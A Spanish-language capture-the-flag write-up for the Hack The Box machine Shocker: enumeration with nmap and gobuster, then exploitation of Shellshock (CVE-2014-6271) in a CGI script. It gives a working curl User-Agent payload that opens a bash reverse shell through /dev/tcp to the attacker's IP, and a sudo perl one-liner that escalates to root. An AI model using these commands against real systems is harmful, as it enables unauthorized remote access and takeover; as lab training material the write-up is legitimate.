 ```yaml
---
title: Writeup shocker - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - shocker
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina shocker en Hack The Box.
keywords:
  - writeup shocker
  - hack the box shocker
  - resolución máquina shocker
  - shocker hack the box
  - htb shocker
---
```

------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Linux/Shocker)
- 📺 **Resolución en vivo (completa)**: [Parte1](https://www.youtube.com/watch?v=vaxNMG6xigI)|[Parte2](https://www.youtube.com/watch?v=o5cVkovAiAY)
- 🧠 **Explicación resumida**: [Link](https://www.youtube.com/watch?v=gTelKKOMDQw)

--------

#easy #linux #nmap #ping #shellshock #tratamientotty #reverseshell #whatweb #wappalyzer #sudo-l #CVE-2014-6271

-------
# Guided Mode

1)¿Cuántos puertos TCP están a la escucha en Shocker?
	2

2)¿Cuál es el nombre del directorio disponible en el servidor web que es un nombre estándar conocido por ejecutar scripts a través de la interfaz de puerta de enlace común?
	cgi-bin

3)¿Cómo se llama el script del directorio cgi-bin?
	user.sh

4)Pregunta opcional: ¿El resultado de user.sh coincide con el resultado de qué comando estándar de Linux?
	uptime

5)¿Qué CVE ID de 2014 describe una vulnerabilidad de ejecución remota de código en Bash cuando se invoca a través de Apache CGI?
	CVE-2014-6271

6)¿Con qué usuario se ejecuta el servidor web en Shocker?
	shelly

*La pregunta anterior era la flag de user.txt*
8)¿Qué binario puede ejecutar el usuario shelly como root en Shocker?
	perl

-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.56 
nmap -p- --open -vvv -sS --min-rate 5000 -n -Pn 10.10.10.56 -oG allPorts
extractPorts allPorts
nmap -sCV -p80,2222 10.10.10.56 -oN target
```

![[Shocker4.png]]
![[Shocker5.png]]
*TLL:* Maquina linux
*Puertos:*
	`80` HTPP
	`2222` [[ssh]]

------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.10.10.56
```
![[Shocker3.png]]
![[Shocker6.png]]
No obtenemos ninguna informacion relevante

-------------
# [[Gobuster]]

```shell
gobuster dir -u http://10.10.10.56 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt --add-slash -t 64
```

![[Shocker8.png]]

Nos da que existe un directorio http://10.10.10.56/cgi-bin/

Ahora aplicamos enumeracion en este directorio buscando archivos con extension  ``.sh .pl .cgi`` 

```shell
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -x sh,pl,cgi -t 64
```

![[Shocker9.png]]

Y da que en el directorio *cgi-bin* hay un archivo *user.sh*   `http://10.10.10.56/cgi-bin/user.sh`

-------
# [[NMAP Scripts]]

Como estamos ante el directorio *cgi-bin*, ejecutamos un comando de enumaracion de shellshock de `nmap` poniendo el archivo de *user.sh* que encontramos antes:
```shell
nmap -p80 10.10.10.56 --script http-shellshock --script-args uri=/cgi-bin/user.sh
```

![[Shocker2.png]]
Nos indica que es vulnerable a [[CVE-2014-6271]]

---------
# Explotacion [[CVE-2014-6271]] y [[Reverse shell]]

[Articulo de shellshock](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/cgi.html)
Vamos a usar [[curl]] con el comando `curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; };echo;echo; /bin/bash -i >& /dev/tcp/10.10.16.6/443 0>&1"`
	se pone el ;echo;echo para separar el payload malioso del comando `curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; }/bin/bash -i >& /dev/tcp/10.10.16.6/443 0>&1"`

Ahora nos vamos a poner en escucha con [[nc -nlvp 443]]
![[Imagenes/Shocker1.png]]
Ya ganamos acceso a la maquina

-----
# [[Tratamiento de la TTY]]

---
# Escalada de privilegios con [[Abuso de Sudo]] del [[Binario Perl]]

```shell
sudo -l
```

![[Shocker10.png]]

Se puede ejecutar el binario de */usr/bin/perl*, con privilegio de root sin contraseña. 
Asi que vamos a la pagina de [gtfobins](https://gtfobins.github.io/gtfobins/perl/#sudo) y nos da un comando para ejecutar una bash con privilegios

![[Shocker11.png]]

```bash
sudo /usr/bin/perl -e 'exec "/bin/sh";'
```

Y como se puede apreciar, ya somos root, y podemos catear las flags
![[Shocker12.png]]

# Notas

--------

Me paso que si no ejecutaba el script de nmap, no se me ejecutaba el payload, no me llegaba la revershell


-------
# 📚Creditos

[Writeup de Bast1an1c](https://bast1ant1c.github.io/shocker/#)  
Writeup oficial de HTB
